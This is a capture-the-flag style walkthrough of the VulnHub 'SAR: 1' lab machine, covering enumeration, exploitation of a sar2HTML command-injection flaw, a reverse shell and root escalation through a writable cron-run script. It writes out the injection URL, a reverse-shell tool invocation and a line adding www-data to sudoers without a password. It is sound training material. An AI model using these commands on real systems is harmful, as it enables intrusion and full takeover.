 <p align="center"><img src="https://github.com/AkaSec-1337-CyberSecurity-Club/Introduction/raw/main/light-14.jpg" alt="AkaSec 1337 CyberSecurity Club Logo"/><br></p>

# Introduction

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

This box is on the <a href="https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0">NetSecFocus Admin list</a> of OSCP-like machines. It’s <a href="https://www.vulnhub.com/entry/sar-1,425/">SAR: 1</a> from vulnhub.

## Setup Machine

First of all, I setup <a href="https://www.vulnhub.com/entry/sar-1,425/">sar machine</a> locally in a virtualMachine with the name **sar** then started it.
After starting the machine, I got its IP address using **VBoxManage** command
```bash
$> VBoxManage guestproperty enumerate sar | grep IP
```
<p align="center"><img src="screenShots/GetMachineIP.png" alt="Machine IP"/></p><br>

## Enumeration

### Nmap

The first step to penatrate a machine is gather information about it. After getting its IP address we can scan its to get open ports and service using **nmap** command

```bash
$> nmap FLAGS IPADDRESS
-A flag for aggressive scanning
-sV flag detect running services and their version
```

<p align="center"><img src="screenShots/Nmap.png" alt="Scan IP address with nmap"/></p><br>

### Fuzzing

The output shows that we have port 80 open, so we can access the ip via browser, The default page shows apache info page.
The next step is searching for more directories and files, to do that we can use **dirb** tool

```bash
$> dirb http://IPADDRESS/ /path/to/wordlist
```

<p align="center"><img src="screenShots/Dirb.png" alt="Fuzzing for more paths"/></p><br>

The output of **dirb** tool shows 3 valid paths, `index.html` which is the default apache page, `phpinfo.php` shows php info, and finally `robots.txt` that has `sar2HTML` text.
I put that text as path in URL and I got the following page

<p align="center"><img src="screenShots/sar2HTML.png" alt="sar2HTML page"/></p>

### Exploiting

After reading the content I decided to look up sar2Html in google, and I found that it is a service that has a Remote Code Execution vulnerability, I exploited it as described in <a href="https://www.exploit-db.com/exploits/47204">exploit-db</a>, `IPADDRESS/sar2HTML/index.php?plot=;<command>` this will execute the command and show the output of it in select host droplist at the left of the page.

<p align="center"><img src="screenShots/RunTheExploit.png" alt="Exploited sar2HTML"/></p>

After executing the command I immediately thought of a reverse shell, I found this <a href="https://github.com/AssassinUKG/sar2HTML">Reverse Shell for sar2HTML</a> and executed it as follow

```bash
$> ./sar2HTML -ip MACHINEIPADDRESS -rip LISTENING_SERVER_FOR_REVERSE_SHELL -pe DIRECTORY
```
running `rs session` on the webShell will create a server (listening on `IP:PORT` provided in `-rip` flag) with a Reverse Shell.<br>
After getting the reverse shell I started checking the current directory, which is `/sar2HTML`, then back one step to parent directory which is `/var/www/html`.<br>
I found in this directory 2 suspicious files, `finally.sh` with root as owner and `write.sh` with current user as owner which is `www-data`.<br>
After printing their content I found that `finally.sh` execute `write.sh` file, where `write.sh` file create `/tmp/gateway` file using `touch` command.<br>
That is all I could get for now.
<p align="center"><img src="screenShots/ReverseShell.png" alt="Reverse Shell"/></p>

### LinPEAS

For more information about the system we can use <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">`LinPEAS`</a> tool, this tool can find possible CVEs and vulnerabilities that we can exploit.

<p align="center"><img src="screenShots/LinPEAS.png" alt="LinPEAS"/></p>
<p align="center"><img src="screenShots/Information.png" alt="LinPEAS"/></p>

After scrolling more and reading through the output, I found that the system is vulnerable to `CVE-2021-4043` (I won't exploit it for now).<br>
Reading more I found a cronjob that runs every 5 minutes, the cronjob was highlighted by the `LinPEAS tool`.<br>
The cronjob runs the `finally.sh` script that we found in `/var/www/html` as root, so whatever is written in `write.sh` will be run as root every 5 min.

<p align="center"><img src="screenShots/VulnerabilityFound.png" alt="LinPEAS"/></p>

The way to privilege escalating is to set the current user `www-data` in the sudoers list in `/etc/sudoers` which can be updated only by the root.<br>
I appended to `write.sh` script some commands to check sudoers file, then added `echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers` to `write.sh` script.<br>
This will add the current user `www-data` to sudoers so he can run any command without password, Thus after 5 min I ran `sudo bash` as a sudoer and got bash with root privileges. 
<p align="center"><img src="screenShots/PrivilegeEscalating.png" alt="LinPEAS"/></p>

## Resources

Here are some resources I learned several concepts from when exploiting this machine.<br>
- <a href="https://www.linuxfoundation.org/blog/blog/classic-sysadmin-configuring-the-linux-sudoers-file">About sudoers file</a>
- <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Privilege escalating with Cron jobs</a>
